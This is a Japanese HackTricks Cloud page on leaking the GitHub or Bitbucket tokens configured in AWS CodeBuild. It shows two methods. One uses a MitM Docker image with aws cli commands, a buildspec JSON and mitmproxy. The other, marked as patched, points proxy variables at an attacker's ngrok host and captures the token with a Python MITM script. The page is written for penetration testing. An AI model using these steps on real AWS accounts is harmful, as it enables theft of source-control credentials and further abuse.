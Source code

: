 # AWS Codebuild - トークンの漏洩

<details>

<summary><strong>HackTricksをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**最新バージョンのPEASSやHackTricksのPDFをダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## Github/Bitbucketに設定されたトークンの回復

まず、漏洩する可能性のあるソースの資格情報が設定されているかどうかを確認します：
```bash
aws codebuild list-source-credentials
```
### Dockerイメージを介して

例えば、Githubへの認証がアカウントに設定されている場合、プロジェクトのビルドを実行するためにCodebuildが特定のDockerイメージを使用するようにすることで、そのアクセス（GHトークンまたはOAuthトークン）を**外部に持ち出す**ことができます。

このためには、新しいCodebuildプロジェクトを作成するか、既存のプロジェクトの**環境を変更**してDockerイメージを設定します。

使用できるDockerイメージは[https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)です。これは非常に基本的なDockerイメージで、**`https_proxy`**、**`http_proxy`**、**`SSL_CERT_FILE`**の環境変数を設定します。これにより、**`https_proxy`**と**`http_proxy`**で指定されたホストのほとんどのトラフィックを傍受し、**`SSL_CERT_FILE`**で指定されたSSL証明書を信頼することができます。

1. **独自のDocker MitMイメージを作成してアップロードする**
* リポジトリの手順に従ってプロキシのIPアドレスを設定し、SSL証明書を設定し、**Dockerイメージをビルド**します。
* メタデータエンドポイントへのリクエストを傍受しないように、**`http_proxy`を設定しないでください**。
* `ngrok tcp 4444`のように**`ngrok`**を使用してホストにプロキシを設定することができます。
* Dockerイメージがビルドされたら、それを**パブリックリポジトリ**（Dockerhub、ECRなど）にアップロードします。
2. **環境を設定する**
* 新しいCodebuildプロジェクトを作成するか、既存のプロジェクトの環境を**変更**します。
* プロジェクトを**以前に生成したDockerイメージ**を使用するように設定します。
*

<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
3. **ホストでMitMプロキシを設定する**
* **Githubリポジトリ**に示されているように、次のようなものを使用することができます：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
4. **ビルドを実行し、資格情報を取得する**

*   **Authorization** ヘッダーでトークンを確認できます：

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

これは、aws cli からも次のように行うことができます：

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTPプロトコルを介して~~

{% hint style="success" %}
**この脆弱性は、2023年2月20日の週（おそらく金曜日）にAWSによって修正されました。したがって、攻撃者はこれを悪用することはできません :)**
{% endhint %}

CodeBuildで昇格された権限を持つ攻撃者は、設定されたGithub/BitbucketトークンまたはOAuth経由で設定された権限の場合、コードにアクセスするために使用される**一時的なOAuthトークン**を漏洩させることができます。

* 攻撃者は、CodeBuildプロジェクトに環境変数**http\_proxy**と**https\_proxy**を追加し、それを自分のマシンに向けることができます（例：`http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* 次に、githubリポジトリのURLをHTTPSではなくHTTPを使用するように変更します。例：**http://**github.com/carlospolop-forks/TestActions
* 次に、プロキシ変数（http\_proxyおよびhttps\_proxy）が指すポートで[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)の基本的な例を実行します。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最後に、**プロジェクトをビルド**をクリックすると、**認証情報**がクリアテキスト（base64）でmitmポートに送信されます：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
これにより、攻撃者は自分のマシンからトークンを使用し、CodeBuildサービスを直接使用するよりも簡単に特権をリストアップし、乱用することができます。
{% endhint %}

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝**したい場合や、**最新バージョンのPEASSを入手**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)を入手する
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローする🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **ハッキングのトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
